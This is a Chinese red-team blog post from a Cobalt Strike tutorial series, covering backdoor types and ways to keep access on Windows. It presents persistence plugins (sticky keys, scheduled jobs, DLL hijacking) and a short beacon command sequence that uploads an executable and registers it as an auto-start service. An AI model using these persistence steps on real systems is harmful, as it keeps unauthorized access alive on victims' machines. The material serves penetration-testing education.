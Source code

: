 ```yaml
---
layout:     post
title:    Cobalt Strike系列 6
subtitle:   Cobalt Strike 后门与权限维持
date:       2019-08-20
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - Cobalt Strike
    - 红队
---
```

# Cobalt Strike系列 6 后门与权限维持


# 简介

- 后门  
- CS插件权限维持  



## 后门
当我们接到某个任务应急的时候，往往系统已经是被入侵了，甚至已经被脱库，且植入后门继续进行持续攻击。 攻击者在后渗透阶段的目的是什么？完成作战目的后，不让防御者溯源，即反溯源。攻击者进入持续攻击阶段，与前面的渗透攻击的重要区别就在于持续性，权限的维持，后门在持续攻击中就是非常重要的一环。  
常见后门种类：  
- 本地后门  
- 第三方后门  

根据触发机制又可以分为：  
- 主动后门  
- 被动后门  

一个优秀的后门最起码应该是隐蔽的，然后要稳定。  
一个优秀成熟的后门，能够极大的增加防御者投入在对抗攻击中的人力成本，物力成本。  
劣质的后门，不但起不到持久化作用，还会加快结束攻击者的行动，甚至会暴露攻击者。  

## CS插件权限维持
常见维持权限的手段：  
- 注册表  
- 启动项  
- 计划任务  
- 服务  
- 后门  
- dll劫持  
- 等等  

###  CS添加插件

CS中需要手动添加插件，用来权限维持。  
需要先下载cna脚本，我是在春秋上下的，可以自己去取。  
[add_pug](/img/add_pug.png)   
然后load脚本。  
[add_pug2](/img/add_pug2.png)   
再右键beacon就会发现，多了persist选项
[persist](/img/persist.png)   
简单介绍下几个模块的用法。  
前面几个都是基于dll劫持的。  
sticky keys 是shift后门。
scheduled job是计划任务维持。  
使用的话直接使用就可以了。  

###  开机启动后门
我们尝试用生成的exe，添加到开机任务来维持权限。  
首先生成exe后门，测试就不用免杀，实际中生成的基本不能直接用，统统被杀软爆了。  
然后在beacon中操作：  
```
beacon> cd C:\WINDOWS\Temp\
beacon> upload /Users/xxxx/Desktop/1.exe
beacon> shell sc create "aaser" binpath= "C:\WINDOWS\Temp\1.exe"
beacon> shell sc description "aaser" "description"
beacon> shell sc config "aaser" start= auto
beacon> shell net start "aaser"
```
这样一来每次重启，都会执行1.exe返回beacon。当然问题最大的还是免杀，后面再讲这个问题。  

###  dll后门
坑先挖好，暂时不知道怎么写，有些细节不知道怎么去展开。  


## 结语
本来想写下转发的，但是环境没搭建好，所以写这个。 在写的过程中发现，铺开来讲实在是太多了，一个dll都能拉出来专门开一个坑了，还有自己编写后门，我需要再考虑考虑这个问题。    













